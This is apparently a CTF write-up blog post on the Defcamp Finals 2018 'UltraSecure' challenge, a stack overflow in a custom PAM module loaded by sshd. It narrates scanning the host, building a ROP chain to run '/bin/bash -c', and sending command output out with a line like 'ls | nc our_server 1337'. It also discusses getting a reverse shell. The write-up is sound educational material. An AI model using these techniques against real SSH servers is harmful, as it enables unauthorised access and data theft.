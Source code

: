 ```yaml
---
layout: post
title: "Defcamp Finals 2018 - UltraSecure (pwn)"
description: ""
date: 2018-11-09
tags: [ctf, pwn]
comments: true
---
```


> 142.93.107.255 (Solves: 3, ~400 pts)
>
> [UltraSecure.so][bin1] [UltraSecure-2.so][bin2] [+auto.py][auto]

In this challenge, we are presented with a `UltraSecure.so` shared object file (later updated by the authors to UltraSecure-2.so), and challenge server ip without a port. This is quite puzzling as generally I expect a binary and a port to be provided in a pwn challenge. Naturally, I decided to find out the port for this service first, so I ran a simple nmap scan to discover the open ports. There weren't many open ports from the results and what stands out is the open ssh port.
```
PORT    STATE    SERVICE
22/tcp  open     ssh
```

## Quick Glance
Upon quick reversing of the .so file we are provided with, it seems that it only implements three functions `pam_sm_authenticate`, `pam_sm_acct_mgmt`, `pam_sm_setcred` (In the updated binary there is a bit more, but these are the functions that matter). Upon quick googling you'll realise that these functions are used for authentication of user logins.
```
PAM_SM_AUTHENTICATE(3)        Linux-PAM Manual        PAM_SM_AUTHENTICATE(3)

pam_sm_authenticate - PAM service function for user authentication
```
Now the challenge is starting to make more sense, since the SSH service is running on the challenge server, and it's likely loading this shared object, we have to exploit the authentication during the SSH connection. Looking at the binary, the bug is very trivial, it's a `memcpy` (originally was `strcpy`) of user input into a stack buffer without any bounds checking, thus we can essentially overflow the stack as much as we wish.

In the password check for authentication, our user-given password copied on to the stack buffer is compared with a very large string of "A"s. 

{% highlight C %}
if ( !strcmp(
      &dest,
      "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
      "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
      "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
      "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
      "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
      "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
      "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
      "AAAAAAAAAAAAAAAAAAA") )
result = 0LL; // 0 = authentication pass
{% endhighlight %}

The number of "A"s in the correct password is such that if we were to provide a correct password that gives return result of 0, our saved RIP on the stack will be overwritten. Thus it doesn't matter if our return value is correct since it will segfault upon return to a bad address. If we were provided with a binary (and there is no PIE), it would be pretty easy to form a ROP chain and pop our shell or read the flag, however since we do not have a binary, our options are limited.

## BeeROP
From our previous constraints, this challenge immediately reminded me of BROP(Blind ROP), a technique that uses brute-force and clever logic to find gadgets and perform ROP without having access to the binary. I've never done the technique but I was familiar with the idea after reading about it in the past. One idea in BROP is brute-forcing the stack canary. The idea is that if the stack canary is unknown but constant throughout executions, we could bruteforce one byte at a time, when the binary doesn't throw an error, then we've hit the correct byte. In this case, there are no stack canaries but we could apply the same idea to bruteforce return addresses on the stack, this would give us a leak in those respective pages. If we got the byte wrong, the ssh connection would immediately drop, if we hit the correct byte, the ssh prompt will request for a password again as our password provided was wrong. For `pam_sm_authenticate`, I believe that it was being called by `pam_authenticate` from `libpam.so`, thus if we bruteforce this address, we could perform ROP using gadgets from that file. However, this had multiple issues or assumptions required.

1. No ASLR
	- In order to bruteforce the canary, the canary must be constant across executions. Likewise, when we want to bruteforce this return address, we need the address to be constant throughout different executions, if not we would never be able to bruteforce the value.

2. Same libpam.so
	- Assuming we did get a leak from the `libpam.so`, we would still need to find gadgets and functions that we can call, finding their addresses relative to our leak. In order for this to work, we need to be have the same `libpam.so` that the server is running. Since I was not familiar with this file, I wasn't confident about ROPing with it.

3. Noob python
	- We couldn't figure out how to script it properly. It is surprisingly difficult to script SSH authentications.

With all these issues, I decided to drop the challenge and pivot to working on the web challenges. Meanwhile, my teammate for this finals [FetchDex][fedex] continued to work on the challenge as he was determined to solve it.

## Back at it 
After I had solved a web challenge and a "good night's sleep"(on a beanbag), FetchDex managed to get a local copy of the same OpenSSH version installed, meaning we may have the correct binary (same one as the one running on the server). Additionally, after playing some meta-CTF, I google'd the challenge author's github and found an interesting [repository][github] about PAM modules. This helped us to link the module and was useful for debugging and such. Thus I continued to work together with FetchDex on this challenge.

## Sleepy pwnable
Although we did compile the same version of OpenSSH locally, being a skeptic, I was doubtful that our resultant binary was exactly the same as the one running on the server. This usually isn't a big deal, but for ROPing, a small different could mean that all our gadgets are taken from the wrong addresses, if the compiler were to just sneeze during compilation, our exploit would be gone. Sleep-deprived pwners need sleep, and so do the pwnables. In order to test whether we could effectively control RIP and go to the gadgets in the `sshd` (OpenSSH) binary, I needed some indication that the gadget has been run. Initially, I had chosen some `printf()` gadgets that should print to stdout, but since we were connecting with the `ssh` tool, it seems that we couldn't see any of that output, either the server doesn't send it or our client doesn't display it. Instead, as I've been foreshadowing, I found a `sleep(some_big_number)` gadget. This is a much more telling gadget as we can see an indication that this is running when the interactive session pauses for a long time after we send our malicious password. Fortunately, the sleep trick worked both locally and remotely, a strong indicator that our offsets are either exactly the same or good enough for our uses.

## ROP master
After knowing that we can call gadgets from the `sshd` binary, we were equipped to win. We formed a quick `execv("/bin/sh", 0)` ROP chain, hoping it would work. Unfortunately, the ROP chain executed but we would not be able to interact with it through the SSH client we were using. This got us for a while and I was ready to give up.

Later on, we moved to a slightly different idea. This challenge reminded me of MeePwn CTF challenge where we could execute shellcode on their server but we had no interactive access. In the end, I ran a `/bin/bash -c` shellcode, using a reverse shell as an argument. This easily gives us a reverse shell that we can use to interact with the server, even though the original binary doesn't permit an interative session for us. With the gadgets we had, we could possible pull off a `/bin/bash -c` too. However, a big issue was that we needed to get the strings like "/bin/bash", "-c" and our command in memory. Since we do not have proper interactive access, we can't use something like `read(0, bss, 1000)` to read our strings to some known writable address. Since the CTF was ending soon, I decided not to look for a perfect solution, but to look for a solution that might work. Therefore, I randomly made the assumption that ASLR was disabled. If ASLR was disabled, this would be very useful for us as we have certain heap buffers that we can control. If ASLR is disabled, these heap buffers would always be at the same place (mostly), meaning our exploit can work. We confirmed this with the organisers later.
* Note: After reading a nice [writeup][writeup] from the other team, I now realise that we did not need to make this as an assumption. Since `sshd` is something like a fork server, the addresses would not be re-randomised everytime so it's not too bad.

Moving on, since we can control the heap buffers, we can simply form a ROP chain that will allow us to call `exec("/bin/bash", argv)`, where `argv = ["/bin/bash", "-c", "arbitrary_command"]`. This ROP chain worked and we were able to get input from the server with commands like `ls | nc our_server 1337`. However, I don't know why it didn't occur to me during the CTF, but we were using `some_command | nc our_server 1337` repeatedly with different commands. And since the heap addresses did change slightly every once in awhile, the script only worked once every ~30 times, thus this was very slow. In hindsight, I should have just ran a single command that would create reverse bash shell back to my remote server, we would have gotten the flag a lot earlier had I realised this. Eventually, we got the flag quite soon to the end of the CTF. A nice way to end.

`DCTF{f646115ce24bada814d949b254a3b0b7858551e07df7235bd20e6b92834fd023}`

## Post-CTF
We(HATS Singapore) ended the CTF in 12th place of 17 finalist teams. This CTF was the first time I've talked to most of my teammates in real life and it's been an interesting experience thus far. Being our first onsite CTF playing as a team, I'm quite proud of how we faired in this CTF even though it may not be objectively the greatest placing.
![screenshot][ss]



[bin1]:{{site.baseurl}}/ctf/2018-11-09-defcamp-finals-2018---ultrasecure/UltraSecure.so
[bin2]:{{site.baseurl}}/ctf/2018-11-09-defcamp-finals-2018---ultrasecure/UltraSecure-2.so
[auto]:{{site.baseurl}}/ctf/2018-11-09-defcamp-finals-2018---ultrasecure/auto.py
[fedex]:[https://twitter.com/FetchDEX]
[github]:[https://github.com/NitescuLucian/simple-pam]
[writeup]:[https://github.com/Inndy/ctf-writeup/tree/master/2018-d-ctf-final/ultimate-secure]
[ss]:{{site.baseurl}}/ctf/2018-11-09-defcamp-finals-2018---ultrasecure/ss.png